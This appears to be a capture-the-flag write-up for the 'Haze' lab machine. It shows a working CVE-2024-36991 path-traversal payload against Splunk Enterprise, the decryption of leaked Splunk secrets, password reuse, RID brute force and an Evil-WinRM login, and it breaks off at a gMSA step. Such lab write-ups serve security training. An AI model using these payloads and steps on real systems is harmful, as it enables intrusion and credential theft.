


## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 8089/TCP](#Enumeration-of-Port-8089TCP)
    - [Enumeration of Port 8000/TCP](#Enumeration-of-Port-8000TCP)
- [CVE-2024-36991: Splunk Enterprise Arbitrary File Read](#CVE-2024-36991-Splunk-Enterprise-Arbitrary-File-Read)
- [Decrypting Hashes](#Decrypting-Hashes)
- [Enumerating Port 445/TCP](#Enumerating-Port-445TCP)
- [RID Brute Force](#RID-Brute-Force)
- [Foothold](#Foothold)
    - [Privilege Escalation to Mark.Adams](#Privilege-Escalation-to-MarkAdams)
        - [Password Reuse](#Password-Reuse)
- [Enumeration (Mark.Adams)](#Enumeration-MarkAdams)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Dumping Group Managed Service Accounts (gMSA)](#Dumping-Group-Managed-Service-Accounts-gMSA)
- [Lateral Movement to SUPPORT_SERVICES Group](#Lateral-Movement-to-SUPPORT_SERVICES-Group)
    - [Access Control List (ACL) & Access Control Entry (ACE) Abuse](#Access-Control-List-ACL--Access-Control-Entry-ACE-Abuse)
- [Pivoting to Edward.Martin](#Pivoting-to-EdwardMartin)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Shadow Credentials Attack](#Shadow-Credentials-Attack)
- [user.txt](#usertxt)
- [Enumeration (Edward.Martin)](#Enumeration-EdwardMartin)
- [Investigating the Backup Archive](#Investigating-the-Backup-Archive)
- [Splunk Enterprise](#Splunk-Enterprise)
- [Privilege Escalation to Alexander.Green](#Privilege-Escalation-to-AlexanderGreen)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
    - [SeImpersonatePrivilege Abuse](#SeImpersonatePrivilege-Abuse)
- [root.txt](#roottxt)

## Summary

The box starts with `CVE-2024-36991` aka `Arbitrary File Read` in `Splunk Enterprise`. This allows to leak `hashes` and the `splunk secret` which is used to `decrypt` the `hashes` and to retrieve the `cleartext passwords`. With doing so it is possible to obtain `valid credentials` for `Paul.Taylor`. Through `password reuse` is it possible to `escalate privileges` to `Mark.Adams` to get `Foothold` on the box. He is also member of the `GMSA_MANAGER` group which allows to abuse the `Group Managed Service Accounts (gMSA)` capability in order to retrieve the `NTLM Hash` of `Haze-IT-Backup$`. This account has set `GenericAll`, `WriteOwner` and `Owns` on the `SUPPORT_SERVICES` group. By abusing `Access Control Lists (ACL)` and `Access Control Entries (ACE)` it is possible to grant `full control` on this group. With the `lateral movement` to the `SUPPORT_SERVICES` group a takeover of `Edward.Martin` by using `Shadow Credentials` is possible to `escalate privileges` even further. This step finally allows to grab the `user.txt`. To move on the next step is to abuse the `BACKUP_REVIEWERS` membership of `Edward.Martin` in order to download the `splunk_backup_2024-08-06.zip` which contains another set of `hashes` and `splunk secrets`. After `decrypting` the `hash` for `admin` access to the `Web GUI` of `Splunk Enterprise` is possible. By upload a `malicious app` as `tarball` a session as `Alexander.Green` can be gained. As last step on this box it is necessary to abuse the `SeImpersonatePrivilege` of `Alexander.Green` in order to get `NT AUTHORITY\SYSTEM` and to get access to the `root.txt`.

## Reconnaissance

### Port Scanning

The `port scan` using `Nmap` revealed that we had to deal with a nearly normal `Domain Controller`. However we found also port `8089/TCP` running on the machine using the options `-Pn -p-` in later scans.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.135.234
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 20:01 CET
Nmap scan report for 10.129.135.234
Host is up (0.019s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-30 03:01:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 8h00m00s
| smb2-time: 
|   date: 2025-03-30T03:02:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.91 seconds
```

### Domain Enumeration

Next we performed a quick look at the `Domain` to see if there was any outstanding configuration we could approach.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.135.234
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.135.234
[*] Username ......... ''
[*] Random Username .. 'nhfperse'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.135.234    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.135.234    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: haze.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.135.234    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.135.234    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.135.234    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: HAZE                                                                                                                                                                                                                   
DNS domain: haze.htb                                                                                                                                                                                                                        
FQDN: dc01.haze.htb                                                                                                                                                                                                                         
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: HAZE                                                                                                                                                                                                                        

 ===========================================
|    RPC Session Check on 10.129.135.234    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 10.129.135.234    |
 =====================================================
[+] Domain: HAZE
[+] Domain SID: S-1-5-21-323145914-28650650-2368316563
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 10.129.135.234    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: ''                                                                                                                                                                                                                              
OS build: '20348'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =======================================
|    Users via RPC on 10.129.135.234    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 10.129.135.234    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 10.129.135.234    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 10.129.135.234    |
 ===========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 10.129.135.234    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 8.45 seconds
```

At this point we were certain enough to only add `haze.htb` and `dc01.haye.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.135.234  haze.htb
10.129.135.234  dc01.haze.htb
```

### Enumeration of Port 8089/TCP

First we checked port `8089/TCP` and found a running instance of `Splunk` with the `build number` of `9.2.1` on it.

- [https://haze.htb:8089/](https://haze.htb:8089/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb https://haze.htb:8089/
https://haze.htb:8089/ [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.129.135.234], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```



| Build |
| ----- |
| 9.2.1 |

We also checked each of the available `URLs` in order to find any useful information but besides the `authorization prompts` on two of them, there was nothing we could leverage.


### Enumeration of Port 8000/TCP

Next we had a closer look at the `official documentation` of `Splunk` and moved on to port `8000/TCP` which provided the `Web GUI` for `Splunk Enterprise`.

- [https://kinneygroup.com/blog/splunk-default-ports/](https://kinneygroup.com/blog/splunk-default-ports/)
- [http://haze.htb:8000/](http://haze.htb:8000/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://haze.htb:8000/
http://haze.htb:8000/ [303 See Other] Country[RESERVED][ZZ], HTML5, HTTPServer[Splunkd], IP[10.129.135.234], Meta-Refresh-Redirect[http://haze.htb:8000/en-US/], RedirectLocation[http://haze.htb:8000/en-US/], Title[303 See Other], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
http://haze.htb:8000/en-US/ [303 See Other] Cookies[session_id_8000], Country[RESERVED][ZZ], HTTPServer[Splunkd], HttpOnly[session_id_8000], IP[10.129.135.234], RedirectLocation[http://haze.htb:8000/en-US/account/login?return_to=%2Fen-US%2F], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
http://haze.htb:8000/en-US/account/login?return_to=%2Fen-US%2F [200 OK] Bootstrap, Cookies[cval,splunkweb_uid], Country[RESERVED][ZZ], HTML5, HTTPServer[Splunkd], IP[10.129.135.234], Meta-Author[Splunk Inc.], Script[text/json], probably Splunk, UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge]
```


## CVE-2024-36991: Splunk Enterprise Arbitrary File Read

A little bit of research brought `CVE-2024-36991` aka `Arbitrary File Read in Splunk Enterprise` into play.

- [https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads)

Mr. `mentats` grabbed the `Proof of Concept (PoC)` payload and therefore we were able to extract some `usernames` and `hashes`.

```console
en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd)

```console
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152 :edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152 :mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152 :paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```


| Username |
| -------- |
| admin    |
| edward   |
| mark     |
| paul     |

With this in our arsenal we went ahead to `enumerate` even more of the system and so we found two interesting `hashes` in the `server.conf`.

```console
/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/server.conf
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/server.conf](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/server.conf)

```console
[general] serverName = dc01 pass4SymmKey = $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA== [sslConfig] sslPassword = $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw== [lmpool:auto_generated_pool_download-trial] description = auto_generated_pool_download-trial peers = * quota = MAX stack_id = download-trial [lmpool:auto_generated_pool_forwarder] description = auto_generated_pool_forwarder peers = * quota = MAX stack_id = forwarder [lmpool:auto_generated_pool_free] description = auto_generated_pool_free peers = * quota = MAX stack_id = free
```


As next file we checked the `authentication.conf` which contained the `username` of `Paul Taylor` and a `hash` for `Splunk LDAP Authentication`.

```shell
/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/authentication.conf
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/authentication.conf](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/authentication.conf)

```c
[splunk_auth] minPasswordLength = 8 minPasswordUppercase = 0 minPasswordLowercase = 0 minPasswordSpecial = 0 minPasswordDigit = 0 [Haze LDAP Auth] SSLEnabled = 0 anonymous_referrals = 1 bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY= charset = utf8 emailAttribute = mail enableRangeRetrieval = 0 groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb groupMappingAttribute = dn groupMemberAttribute = member groupNameAttribute = cn host = dc01.haze.htb nestedGroups = 0 network_timeout = 20 pagelimit = -1 port = 389 realNameAttribute = cn sizelimit = 1000 timelimit = 15 userBaseDN = CN=Users,DC=haze,DC=htb userNameAttribute = samaccountname [authentication] authSettings = Haze LDAP Auth authType = LDAP
```


| Username    |
| ----------- |
| Paul Taylor |

## Decrypting Hashes

First we tried to crack those hashes which was not very fruitful so we started to look for an option to `decrypt` the `hashes`. While doing so we found an `article` that described that we need the `splunk secret` in order to move on.

- [https://community.splunk.com/t5/Security/What-salts-the-password-hash/m-p/9272](https://community.splunk.com/t5/Security/What-salts-the-password-hash/m-p/9272)
- [https://asecuritysite.com/hash/splunk_hash](https://asecuritysite.com/hash/splunk_hash)

```console
/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret)

```console
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```


After we grabbed the `splunk secret` we installed `splunksecrets` using `pipx` and created the `splunk.secret` file locally.

- [https://github.com/HurricaneLabs/splunksecrets](https://github.com/HurricaneLabs/splunksecrets)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ cat splunk.secret 
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

After the preparation we started `decrypting` the previously collected `hashes` and received an actual useful looking `password` from the file with the `Splunk LDAP Authentication` configuration.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA==
changeme
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw==
password
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
Ld@p_Auth_Sp1unk@2k24
```

| Password              |
| --------------------- |
| Ld@p_Auth_Sp1unk@2k24 |

## Enumerating Port 445/TCP

After a few attempts we figured out the `name schemata` and got working `credentials` of `Paul Taylor`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec smb 10.129.135.234 -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --shares
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.135.234  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.129.135.234  445    DC01             [*] Enumerated shares
SMB         10.129.135.234  445    DC01             Share           Permissions     Remark
SMB         10.129.135.234  445    DC01             -----           -----------     ------
SMB         10.129.135.234  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.135.234  445    DC01             C$                              Default share
SMB         10.129.135.234  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.135.234  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.135.234  445    DC01             SYSVOL          READ            Logon server share
```

| Username    | Password              |
| ----------- | --------------------- |
| paul.taylor | Ld@p_Auth_Sp1unk@2k24 |

## RID Brute Force

With the option to read `IPC$` we performed a quick `RID Brute Force` and extracted more `usernames` out of it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec smb 10.129.135.234 -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
```

## Foothold

### Privilege Escalation to Mark.Adams
#### Password Reuse

With the `usernames` and the `password` put into `custom wordlists`, we looked for `password reuse` and indeed the `password` of `Paul.Taylor` was `reused` on `Mark.Adams` which allowed us to login on the box using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.135.234 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents>
```

## Enumeration (Mark.Adams)

The `enumeration` of the `privileges` of `Mark.Adams` did helped us much.

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ===========================================
haze\mark.adams S-1-5-21-323145914-28650650-2368316563-1104


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
HAZE\gMSA_Managers                          Group            S-1-5-21-323145914-28650650-2368316563-1107 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Active Directory Enumeration

Since the `enumeration` on the box itself was a dead end, we moved on and took a closer look at the `Active Directory` using `BloodHound`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --bloodhound --dns-tcp --dns-server 10.129.135.234 -c All 
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             Resolved collection methods: session, acl, rdp, objectprops, group, container, psremote, trusts, dcom, localadmin
LDAP        10.129.135.234  389    DC01             Done in 00M 07S
LDAP        10.129.135.234  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.135.234_2025-03-29_213226_bloodhound.zip
```

## Dumping Group Managed Service Accounts (gMSA)

The user `Mark.Adams` was `member` of `GMSA_MANAGER`.


Mr. `mentats` went for it and carried out the command which allowed us to `retrieve` the `NTLM Hash` of `Haze-IT-Backup$`.

